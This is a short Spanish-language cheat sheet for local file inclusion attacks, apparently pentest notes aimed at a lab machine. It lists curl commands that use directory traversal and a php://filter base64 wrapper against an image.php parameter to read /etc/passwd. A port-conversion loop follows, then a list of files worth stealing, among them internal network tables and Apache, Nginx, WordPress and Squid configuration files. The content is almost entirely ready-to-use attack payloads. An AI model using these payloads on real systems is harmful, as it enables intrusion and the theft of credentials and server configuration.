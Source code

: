 # LFI

## Directory Path Traversal Simple

```
curl -s -X GET 'http://10.10.11.135/image.php?img=../../../../../../../etc/passwd'
```

## Wrappers

### Codificación en base64

```
curl -s -X GET 'http://10.10.11.135/image.php?img=php://filter/convert.base64_encode/resource=/etc/passwd'
```

## Archivos de interés

### Interfaces

```
/proc/net/fib_trie
```

### Puertos internos

```
/proc/net/tcp
```

### Conversión a decimal

```
for port in 0016 20FB 0CEA AE9A 0035; do echo "$((0x$port))"; done
```

### Configuración Apache2

```
/etc/apache2/sites-enabled/000-default.conf
```

### Configuración del Nginx

```
/etc/nginx/nginx.conf
```

### Configuración del Wordpress

```
wp-config.php
```

### Configuración del SQUID Proxy

```
/etc/squid/squid.conf
```